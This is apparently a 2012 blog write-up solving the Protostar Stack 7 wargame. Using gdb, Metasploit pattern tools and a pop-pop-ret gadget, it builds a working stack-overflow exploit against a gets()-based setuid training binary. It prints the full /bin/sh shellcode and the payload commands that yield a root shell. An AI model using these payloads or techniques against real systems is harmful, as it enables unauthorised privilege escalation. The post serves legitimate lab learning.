 ```yaml
---
title: "Exploit Exercises - Protostar Stack 7"
date: "2012-01-09T18:36:00-05:00"
comments: true
highlight: "true"
categories:
 - ret2text
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - suid
 - hacking
aliases:
 - "/2011/12/exploit-exercises-protostar-stack-7.html"
---
```


Welcome everyone to 2012! I took a bit of a break during these holidays, and am just starting to get back going. 

[This challenge](http://exploit-exercises.com/protostar/stack7) was very interesting to me.  I figured it would build off of the previous one.  However, it was its own standalone challenge. 

<!-- more -->

We are given the following code to the stack7 executable: 


```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
 char buffer[64];
 unsigned int ret;

 printf("input path please: "); fflush(stdout);

 gets(buffer);

 ret = __builtin_return_address(0);

 if((ret &amp; 0xb0000000) == 0xb0000000) {
  printf("bzzzt (%p)\n", ret);
  _exit(1);
 }

 printf("got path %s\n", buffer);
 return strdup(buffer);
}

int main(int argc, char **argv)
{
 getpath();



}
```
From tinkering with the stack7 executable, I knew I was going to do a stack overflow, and somehow needed to execute code from the stack.  However, similar to the previous challenge, there was a filter on my return address, making it so I couldn't just jump to an address in the stack.  This meant figuring out a way around it. 

Using the note about this being a "return to .text" exploit, I started reading up.  This is a type of exploit that uses part of the executable, albeit even a string to execute as code, because the same characters are also x86 assembler instructions.  So I went about trying to find some code that would let me essentially, "jmp esp", or jump to the stack pointer, where I would put my shellcode.  To do this, I did the following: 

```
mandreko@li225-134:~$ msfelfscan -j esp stack7
[stack7]
```

This was disappointing.  At first, I thought maybe I was not using msfelfscan correctly, and had to tinker a bit.  But it just turns out, that there is no "jmp esp" in stack7.  What a bummer.  However, on a whim, I tried to see if maybe another option to msfelfscan would work: 

```
mandreko@li225-134:~$ msfelfscan -p stack7
[stack7]
0x08048492 pop ebx; pop ebp; ret
0x080485c7 pop edi; pop ebp; ret
0x080485f7 pop ebx; pop ebp; ret
```

This is great! Some results!  Now let's just pick one, and attempt to use it as the return address in our overflow.  I found that the EIP offset was 80 bytes, so I wired it up as so, and debugged it: 

```
user@protostar:~$ perl -e 'print "A"x80 . "\x92\x84\x04\x08" . "C"x100' > /home/user/file
user@protostar:~$ gdb ./stack7 --quiet
Reading symbols from /home/user/stack7...done.
(gdb) run < file
Starting program: /home/user/stack7 < file
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA▒AAAAAAAAAAAA▒CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC

Program received signal SIGSEGV, Segmentation fault.
0x43434343 in ?? ()
```

This is a good sign.  It is overwriting the EIP now with "C" values (0x43).  So now we just need to know where in the 100 "C"s the return address is going to.  To do that, I did similar process to finding an EIP offset: 

```
mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_create.rb 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

user@protostar:~$ perl -e 'print "A"x80 . "\x92\x84\x04\x08" . "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"' > /home/user/file

user@protostar:~$ gdb ./stack7 --quiet
Reading symbols from /home/user/stack7...done.
(gdb) run < file
Starting program: /home/user/stack7 < file
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA▒AAAAAAAAAAAA▒Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x33614132 in ?? ()

mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_offset.rb 0x33614132
8
```

I simply generated a unique string using pattern_create.rb to replace the 100 "C"s, and then used pattern_offset.rb to tell me the offset when gdb got a segmentation fault.  So now I know that the first 8 "C"s are just junk.  Just to verify this, I ran it again, a little differently: 

```
user@protostar:~$ perl -e 'print "A"x80 . "\x92\x84\x04\x08" . "C"x8 . "D"x8 . "E"x100' > file
user@protostar:~$ gdb ./stack7 --quiet
Reading symbols from /home/user/stack7...done.
(gdb) run < file
Starting program: /home/user/stack7 < file
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA▒AAAAAAAAAAAA▒CCCCCCCCDDDDDDDDEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEE

Program received signal SIGSEGV, Segmentation fault.
0x44444444 in ?? ()
```

This shows the 4 "D"s were properly placed, which proved to me that I was indeed going to need my buffer to look like:

```
| 80 bytes junk | pop-pop-ret | 8 bytes junk | address to execute |
```

Since it was actually going to execute the instructions at the last dword, I opted to put my shellcode in an environmental variable, since it was easy.  I again used the same [shellcode](http://www.exploit-db.com/exploits/13357) for dealing with gets() as I have in the last couple challenges: 

```
user@protostar:/opt/protostar/bin$ export SHELLCODE=`perl -e 'print "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"'`
```
The next problem was to find out where the address would reside in memory.  I used getenvaddr.c again to show me the address. 

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[]) {
        char *ptr;
        if(argc < 3) {
                printf("Usage: %s <environment var> <target program name>\n", argv[0]);
                exit(0);
        }

        ptr = getenv(argv[1]); /* Get env var location. */
        ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* Adjust for program name. */
        printf("%s will be at %p\n", argv[1], ptr);
}
```
Just to be sure, I went to the /opt/protostar/bin directory to do this, since I knew the address could change based on what folder I was in.  I used this to get the address of my SHELLCODE variable by doing the following: 

```
user@protostar:/opt/protostar/bin$ /home/user/getenvaddr SHELLCODE ./stack7
SHELLCODE will be at 0xbffff985
```
Using this address, I exploited the stack7 executable: 

```
user@protostar:/opt/protostar/bin$ perl -e 'print "A"x80 . "\x92\x84\x04\x08" . "C"x8 . "\x85\xf9\xff\xbf"' > /home/user/file
user@protostar:/opt/protostar/bin$ ./stack7 < /home/user/file
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA▒AAAAAAAAAAAA▒CCCCCCCC▒▒▒▒
# whoami
root
# id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
#
```
There you have it, root access, and it was fairly easy.  This is the last challenge in the Protostar VM under the "Stack" category.  Next post you see should be a new category.
